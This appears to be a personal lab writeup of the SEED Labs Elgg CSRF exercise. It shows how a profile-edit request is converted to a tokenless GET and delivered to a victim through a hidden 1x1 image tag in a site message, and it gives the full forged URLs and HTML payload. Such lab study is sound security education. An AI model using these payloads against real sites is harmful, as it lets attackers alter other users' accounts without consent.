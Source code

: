 # Definition
Something to do!!
## Installing and Preparing lab
I will use Web [CSRF Elgg](https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip) docker machine to practice this vulnerability.
```shell
wget https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip
unzip Labsetup.zip
rm Labsetup.zip
cd Labsetup
```
___
Then, we must remove the line number 41 (*name: net-10.9.0.0*) to avoid ERROR with network name and after that deploy the machine.
```shell
docker-compose up -d
```
___
After, we have to add docker machine URLs into **/etc/hosts** to use www.seed-server.com of the docker machine.
![[Pasted image 20230714155121.png]]
___
We will be using this user credentials.
```txt
alice:seedalice
samy:seedsamy
```
# Attacking
## Understanding
First, we should know that each user has an identifier and we can see it by doing a *hover* over the **Add friend** button you can know his **guid**.
![[Pasted image 20230714163036.png]]
___
To begin we could use [[BurpSuite]] to intercept the **Save** button when we change our *Display name* to see the request and do analytics on it.
![[Pasted image 20230714163722.png]]
![[Pasted image 20230714163745.png]]
![[Pasted image 20230714164033.png]]
The **Save** button uses POST method to send data and also uses two interestings variables.
___
Well, to apply CSRF we should change the POST method by GET. In BurpSuite and in the Repeater section you can do this.
![[Pasted image 20230714164529.png]]
___
You should see this.
![[Pasted image 20230714164551.png]]
___
Let's try to send this GET request but without those two interesting variables.
![[Pasted image 20230714165334.png]]
___
Now, this GET request done us a redirect (302) to another site.
![[Pasted image 20230714165608.png]]
___
## Being Bad
Now that you can use this link to change the *Display name* of the current user by using his own *giud*.
```url
http://www.seed-server.com/action/profile/edit?name=ALICE_AGAIN&description=&accesslevel%5bdescription%5d=2&briefdescription=&accesslevel%5bbriefdescription%5d=2&location=&accesslevel%5blocation%5d=2&interests=&accesslevel%5binterests%5d=2&skills=&accesslevel%5bskills%5d=2&contactemail=&accesslevel%5bcontactemail%5d=2&phone=&accesslevel%5bphone%5d=2&mobile=&accesslevel%5bmobile%5d=2&website=&accesslevel%5bwebsite%5d=2&twitter=&accesslevel%5btwitter%5d=2&guid=56
```
___
So, for instance. If you want to change the **Samy**, with giud **59**, Display name, you should change the guid parametter in the link.
```url
http://www.seed-server.com/action/profile/edit?name=SAMY_CHANGED&description=&accesslevel%5bdescription%5d=2&briefdescription=&accesslevel%5bbriefdescription%5d=2&location=&accesslevel%5blocation%5d=2&interests=&accesslevel%5binterests%5d=2&skills=&accesslevel%5bskills%5d=2&contactemail=&accesslevel%5bcontactemail%5d=2&phone=&accesslevel%5bphone%5d=2&mobile=&accesslevel%5bmobile%5d=2&website=&accesslevel%5bwebsite%5d=2&twitter=&accesslevel%5btwitter%5d=2&guid=59
```
___
Now, you should find out some way of that the **Samy** user cans do click on this link.
You can achieve that by sending a message inside the www.seed-server-.com web like a [[XSS Basics]].
As *Alice* user.
![[Pasted image 20230714170932.png]]
![[Pasted image 20230714171151.png]]
___
Firt, we should figure out if *Message* field cans interprets HTML.
```html
<h1>Hello</h1>
Hello Alice :D
```
___
Now, as *Samy* user you can read the message sent by *Alice*.
![[Pasted image 20230714171638.png]]
___
So, you can now use a *image* HTML label to inject the above malicious link, just like this.
To be more stealth you should add *alt*, *widht* and *height* for don't see image error.
*Message* field.
```url
<img src="http://www.seed-server.com/action/profile/edit?name=SAMY_CHANGED&description=&accesslevel%5bdescription%5d=2&briefdescription=&accesslevel%5bbriefdescription%5d=2&location=&accesslevel%5blocation%5d=2&interests=&accesslevel%5binterests%5d=2&skills=&accesslevel%5bskills%5d=2&contactemail=&accesslevel%5bcontactemail%5d=2&phone=&accesslevel%5bphone%5d=2&mobile=&accesslevel%5bmobile%5d=2&website=&accesslevel%5bwebsite%5d=2&twitter=&accesslevel%5btwitter%5d=2&guid=59" alt="image" width="1" height="1"/>
```
![[Pasted image 20230714172344.png]]
___
Now, when **Samy** user reads the *Alice* message his **Display name** will be changed.
![[Pasted image 20230714172523.png]]
![[Pasted image 20230714172544.png]]
___
Finally, you can vary this CSRF to do what you want by intercepting the request and then injecting the malicious GET link like a XSS.